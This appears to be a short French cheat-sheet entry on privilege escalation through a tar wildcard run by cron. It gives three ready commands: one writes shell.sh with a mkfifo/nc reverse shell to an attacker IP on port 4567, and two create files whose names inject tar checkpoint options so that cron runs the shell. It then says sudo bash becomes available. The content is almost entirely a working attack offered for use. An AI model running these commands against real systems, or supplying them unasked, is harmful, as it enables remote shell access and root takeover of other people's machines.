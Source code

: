 # Tar *
Si tar -zcf /tmp/XXX.tar.gz * est présent dans cron, il faut créer 3 fichiers spécifiques indiqué ci-dessous :
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc [ATTACKER IP] 4567>/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Les 3 fichiers doivent être dans le répertoire où le tar va être exécuté.
Une fois le cron passé, on peut lancer un sudo bash ou sudo –u [user]
